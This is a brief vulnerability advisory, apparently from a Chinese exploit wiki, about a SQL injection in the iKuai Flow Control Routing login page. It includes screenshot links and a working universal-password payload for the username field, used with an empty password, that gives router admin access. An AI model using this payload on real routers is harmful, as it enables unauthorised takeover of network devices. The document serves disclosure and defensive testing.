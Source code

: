 # iKuai Flow Control Routing SQL Injection Vulnerability

## Vulnerability Description

iKuai Flow Control Routing There is a SQL injection vulnerability. You can construct a universal password to obtain the router's background management permissions through the SQL injection vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">iKuai Flow Control Routing</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210531180103698.png)



Log in to the background with a universal password



```plain
user: "or""=""or""="
pass: 空
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210531180212296.png)
